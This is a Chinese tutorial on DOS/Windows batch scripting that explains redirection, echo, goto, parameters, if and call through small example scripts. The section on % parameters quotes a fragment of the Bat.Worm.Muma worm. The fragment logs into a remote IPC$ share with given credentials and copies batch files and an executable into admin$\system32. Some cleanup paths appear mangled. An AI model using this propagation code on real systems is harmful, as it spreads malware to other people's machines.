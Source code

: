 # 一、概述

批处理的本质，是一堆DOS命令按一定顺序排列而形成的集合。

批处理了脚本构成没有固定格式，只要遵守以下这条就 ok 了：**每一行可视为一个命令，每个命令里可以含多条子命令，从第一行开始执行，直到最后一行结束，它运行的平台是 DOS。**

批处理有一个很鲜明的特点：使用方便、灵活，功能强大，自动化程度高。

# 二、实例与解析

## 例一：速度最快的 QQ 服务器

```cmd
ping sz.tencent.com > D:\a.txt
ping sz1.tencent.com >> D:\a.txt
ping sz2.tencent.com >> D:\a.txt
ping sz3.tencent.com >> D:\a.txt
ping sz4.tencent.com >> D:\a.txt
ping sz5.tencent.com >> D:\a.txt
ping sz6.tencent.com >> D:\a.txt
ping sz7.tencent.com >> D:\a.txt
exit
```

保存为 `name.bat` 然后执行。执行这个批处理后，在D:\盘建立记录信息的文件。

- **>** : 把前面命令得到的东西放到后面所给的地方
- **>>** :把结果追加到前一行得出的结果的后面。

## 例二：删除 QQ 的广告

```cmd
@echo off
if exist C:\Progra~1\Tencent\AD.gif del C:\Progra~1\Tencent\AD.gif
a.bat
```

这是个过时的例子，它的作用是删除 QQ 的广告，让对话框干干净净。这里用的地址是 QQ 的默认安装地址，默认批处理文件名为`a.bat`，你当然可以根据情况自行修改。在这个脚本中使用了 if 命令，使得它可以达到适时判断和删除广告图片的效果，你只需要不关闭命令执行后的 DOS 窗口，不按 `CTRL+C` 强行终止命令，它就一直监视是否有广告图片（ QQ 也再不断查看自己的广告是否被删除）。



## 例三：使用批处理脚本查是否中冰河。

```cmd
@echo off
netstat -a -n > a.txt
type a.txt | find "7626" && echo "Congratulations! You have infected GLACIER!"
del a.txt
pause & exit
```

## 例四：借批处理自动清除系统垃圾

```cmd
@echo off
if exist c:\windows\temp. del c:\windows\temp\.
if exist c:\windows\Tempor~1. del c:\windows\Tempor~1\.
if exist c:\windows\History. del c:\windows\History\.
if exist c:\windows\recent. del c:\windows\recent\.
```

将以上脚本内容保存到`autoexec.bat`里，每次开机时就把系统垃圾给自动删除了。DOS 不支持长文件名，所以就出现了`Tempor~1`。

# 三、命令讲解

## 1.@

让执行窗口中不显示它后面这一行的命令本身，即行首有了它的话，这一行的命令就不显示了。`@echo off`中，`@`的作用就是让脚本在执行时不显示后面的`echo off`部分。

## 2.echo

一个开关命令，就是说它只有两种状态：打开和关闭。于是就有了`echo on`和`echo off`两个命令了。

直接执行`echo`命令将显示当前`echo`命令状态（`off`或`on`）执行`echo off`将关闭回显，它后面的所有命令都不显示命令本身，只显示执行后的结果，除非执行`echo on`命令。

- 可以用它来显示信息，如”echo  xxxx"

- 可以直接编辑文本文件。

  ```cmd
  echo nbtstat -A 192.168.0.1 > a.bat
  echo nbtstat -A 192.168.0.2 >> a.bat
  echo nbtstat -A 192.168.0.3 >> a.bat
  ```

## 3. ::

这个命令的作用很简单，它是注释命令，在批处理脚本中和`rem`命令等效。它后面的内容在执行时不显示，也不起任何作用，因为它只是注释，只是增加了脚本的可读性，和C语言中的`/…………/`类似.

## 4. ':' 和'goto'

`goto`是个跳转命令，`:`是一个标签。当程序运行到`goto`时，将自动跳转到`:`定义的部分去执行了。

```
……
goto end
……
:end
```

## 5.pause

让当前程序进程暂停一下，并显示一行信息：请按任意键继续. . .。

## 6.%

```cmd
net use \%1\ipc$ %3 /u:"%2"
copy 11.BAT \%1\admin$\system32 /y
copy 13.BAT \%1\admin$\system32 /y
copy ipc2.BAT \%1\admin$\system32 /y
copy NWZI.EXE \%1\admin$\system32 /y
attrib \%1\admin$\system32\10.bat -r -h -s
```

以上代码是 Bat.Worm.Muma 病毒中的一部分，%1代表的IP，%2代表的username，%3代表password。执行形式为：脚本文件名 参数一 参数二 ……。

假设这个脚本被保存为a.bat，则执行形式如下：a IP username password。这里IP、username、password是三个参数，缺一不可（因为程序不能正确运行）。

## 7、if

表示判断的命令。

```cmd
IF [NOT] ERRORLEVEL number do command
IF [NOT] string1==string2 do command
IF [NOT] EXIST filename do command
```

## 8.call

call命令用来从一个批处理脚本中调用另一个批处理脚本。在调用脚本时可以直接加入参数。

```cmd
call a.bat
```

## 9.find

搜索命令，用来在文件中搜索特定字符串，通常也作为条件判断的铺垫。如果没有指定路径，find将搜索键入的或者由另一个命令产生的文字。

## 10.for、set、shift

